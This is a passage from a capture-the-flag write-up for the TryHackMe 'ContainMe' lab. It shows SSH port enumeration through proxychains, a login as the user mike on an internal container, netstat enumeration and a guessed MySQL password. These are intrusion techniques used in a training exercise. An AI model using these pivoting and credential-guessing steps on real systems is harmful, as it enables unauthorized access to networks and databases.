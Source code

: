 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# python3 ssh_port_enum.py                                                    
[...]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.20.5:22 <--socket error or timeout!
ssh: connect to host 172.16.20.5 port 22: Connection refused
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.20.6:22  ...  OK
[...]
mike@host2:~$ whoami;hostname;id;ip a
mike
host2
uid=1001(mike) gid=1001(mike) groups=1001(mike)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
9: eth0@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:17:60:9e brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.6/24 brd 172.16.20.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe17:609e/64 scope link 172.16.20.6
       valid_lft forever preferred_lft forever
```

Found it! `172.16.20.6` has SSH opened and we sucessfully logged in to mike with the private key!

### Container host2 mike to root

**In the `netstat` output, we can see that the MySQL (Port 3306) is opened internally:** 
```
mike@host2:~$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -        
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```

> Note: Currently this room's host2 doesn't start the MySQL service properly.

**Now, we can guess the MySQL credentials!**
```
mike@host2:~$ mysql -umike -ppassword
[...]
mysql> 
```
